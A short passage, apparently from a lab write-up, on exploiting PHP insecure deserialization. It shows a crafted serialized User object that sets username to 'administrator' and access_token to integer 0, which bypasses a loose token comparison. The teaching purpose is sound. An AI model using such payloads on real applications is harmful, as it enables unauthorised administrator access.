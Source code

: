   <img src="image3.png" width="800" hight="500"/>
</p>

So we will change the `access_token` value to integer `0` to pass the condition.

So the final object will be 

```bash
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

<p align="center" width="100%">
  <img src="image4.png" width="800" hight="500"/>
</p>